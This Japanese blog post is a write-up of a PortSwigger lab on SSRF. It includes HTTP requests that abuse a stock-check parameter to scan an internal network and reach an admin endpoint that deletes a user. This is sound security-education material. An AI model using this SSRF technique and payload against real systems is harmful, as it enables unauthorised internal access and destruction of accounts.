


:::message alert
**重要な法的注意事項**

本記事で紹介する技術は、セキュリティ教育および自身が管理するシステムでの脆弱性診断を目的としたものです。**許可なく他者のシステムに対してこれらの技術を使用することは、不正アクセス禁止法等の法律に違反し、刑事罰の対象となります。**

- 必ず事前に書面による許可を得てください
- 自身が所有・管理するシステム、または許可されたテスト環境でのみ使用してください
- 本記事の内容を悪用した場合、筆者は一切の責任を負いません
  :::

## SSRFとは

SSRF（Server-Side Request Forgery）は、サーバーサイドリクエストフォージェリと呼ばれる脆弱性です。攻撃者がサーバーに意図しないリクエストを送信させることで、内部ネットワークへの不正アクセスや機密情報の窃取を可能にします。

### 攻撃の仕組み



### 実際の脅威

SSRF攻撃により以下のような被害が発生する可能性があります：

- 内部ネットワークのポートスキャン
- 管理画面への不正アクセス
- クラウドメタデータサービスからの認証情報窃取
- 内部APIの悪用

## Lab環境とシナリオ

今回は、PortSwiggerが提供するLabを実践しました。

### 環境構成



### Lab目標

- 内部ネットワーク（192.168.0.X）上の管理インターフェースを発見
- 管理者用APIによって「carlos」というユーザーを削除

## 攻撃の実践手順

### Step 1: 脆弱性の発見

まず、在庫確認機能のリクエストをBurp Suiteで傍受

```http
POST /product/stock HTTP/2
Host: xxx.web-security-academy.net
Cookie: session=xxx
Content-Length: 96

stockApi=xxx
```

`stockApi`パラメータに任意のURLを指定できることが判明

### Step 2: 内部ネットワークのスキャン

Burp Intruderを使用して、192.168.0.1〜192.168.0.255の範囲でIPアドレススキャンを実行


### Step 3: 管理画面へのアクセス

スキャン結果から、今回は`192.168.0.94:8080`で管理画面が稼働していることが判明


### Step 4: ユーザー削除の実行

管理画面からcarlos削除用のエンドポイントを確認して、削除リクエストを脆弱性のあるページから実行

```http
POST /product/stock HTTP/2

stockApi=http%3A%2F%2F192.168.0.94%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

## 対策

https://zenn.dev/hanacus87/books/web_security_for_beginners/viewer/ssrf_and_path_traversal#ssrf%E5%AF%BE%E7%AD%96

## まとめ

Port Swiggerが提供しているWeb Security Academyには、SSRFだけではなく、様々なWeb脆弱性に対する攻撃を実践可能なLabがあります。手を動かしてWeb Securityを学びたい人たちにとってはとても優良なコンテンツですので、挑戦してWeb Securityに関するリテラシーを高めていきましょう。

**参考：**
https://portswigger.net/web-security

:::message
セキュリティは攻撃と防御の両面を理解することで向上します。本記事で学んだ知識を、より安全なシステム構築に活かしてください。
:::
